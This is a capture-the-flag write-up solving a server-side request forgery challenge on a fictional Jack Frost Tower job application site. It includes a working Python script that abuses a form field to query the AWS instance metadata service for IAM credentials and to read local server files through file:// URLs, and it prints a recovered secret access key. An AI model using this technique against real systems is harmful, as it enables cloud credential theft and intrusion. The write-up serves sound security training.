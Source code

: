 # Now Hiring!

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [jackfrosttower website](https://apply.jackfrosttower.com/)<br/>
**Terminal hint**: [IMDS Exploration](../hints/h10.md)


## Objective

!!! question "Request"
    What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.


## Hints

??? hint "AWS IMDS Documentation"
    The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.


## Solution

As noted by Noxious O’Dor after solving the [IMDS Exploration](../hints/h10.md) terminal, *"anytime you see URL as an input, test for SSRF"*. So, let's head straight for the [application form](https://apply.jackfrosttower.com/?p=apply) and fill in some random values to see how things behave. Depending on whether a URL is submitted or not the response will look different. For example, using the name *Alf the dyslexic elf* and an `http://169.254.169.254/latest` IMDS API endpoint as the report URL will result in a confirmation message containing additional text and a broken image.

=== ":material-web-off: Skipping the NLBI report URL"
    ![Leaving out the URL](../img/objectives/o10/no_imds_url.png){ class=border }

=== ":material-web-plus: Submitting an NLBI report URL"
    ![Submitting an IMDS URL](../img/objectives/o10/imds_url.png){ class=border }

Inspecting the network requests using the web browser's developer tools shows that the missing image actually has the same name we submitted via the form, `Alf the dyslexic elf.jpg`. It also shows that the request to retrieve the image returned an HTTP 200 response, meaning it must exist. Downloading [`Alf the dyslexic elf.jpg`](../artifacts/objectives/o10/Alf%20the%20dyslexic%20elf.jpg) using `curl` reveals that the file doesn't contain any image data at all, but the output from a request to the server's `http://169.254.169.254/latest` IMDS API endpoint.

![Inspecting the image](../img/objectives/o10/inspecting_the_image.png)

Now that we've confirmed the website is vulnerable to [SSRF](https://portswigger.net/web-security/ssrf) we can either keep submitting the form via a web browser like we've done so far, use `curl` to both submit the form and retrieve the image data, or write a [small script](../tools/objectives/o10/get_ssrf_data.py) that automates the form submission and image retrieval for either an IMDS API endpoint or a local `file://` URL. 

??? example "get_ssrf_data.py"
    ```python linenums="1"
    #!/usr/bin/env python
    import requests
    import click


    @click.command()
    @click.option('-n', '--name', default="Alf the dyslexic elf", help='Your preferred name.')
    @click.option('-a', '--api-endpoint', default="/", help='The IMDS API endpoint to query.')
    @click.option('-f', '--file', help='The full path to a local file.')
    def cli(name: str, api_endpoint: str, file: str):
        url = "https://apply.jackfrosttower.com"

        # Create the file or IMDS URL to retrieve
        if file:
            message = f"local file {file}"
            ssrf_url = f"file://{file}"
        else:
            message = f"IMDS {api_endpoint}"
            ssrf_url = f"http://169.254.169.254{api_endpoint}"

        # Application form fields
        params = {
            'inputName': name,
            'inputEmail': "",
            'inputPhone': "",
            'resumeFile': "",
            'inputWorkSample': ssrf_url,
            'additionalInformation': "",
            'submit': "",
        }

        # Submit the form
        sess = requests.Session()
        resp = sess.get(url, params=params)

        # If the request was successful, download the JPG file and print the contents
        if resp.status_code == 200 and "recipients rejoice!" in resp.text:
            print("Form submission successful.")
            print(f"Retrieving {message}:")
            print(sess.get(f"{url}/images/{name}.jpg").text)
        else:
            print("Error submitting form.")


    if __name__ == '__main__':
        cli()
    ```

The key data we're after is stored under `/latest/meta-data/iam/security-credentials/<role_name>`, so we first need to request `/latest/meta-data/iam/security-credentials` and then use the role name in a followup request to retrieve all credential details.

![Running the script](../img/objectives/o10/run_script.png)

!!! done "Answer"
    CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX


!!! note "PHP application flaw"
    Using `python get_ssrf_data.py -f '/var/www/html/index.html'` to access the web application source at  `/var/www/html/index.html` we can see that the PHP code doesn't verify if an actual NLBI report URL was submitted and simply assumes that what is sent back is an image. The intent was to personalize the confirmation message by including the applicant's profile picture, but instead it introduced the SSRF vulnerability.

    ![PHP flaw](../img/objectives/o10/php_flaw.png)
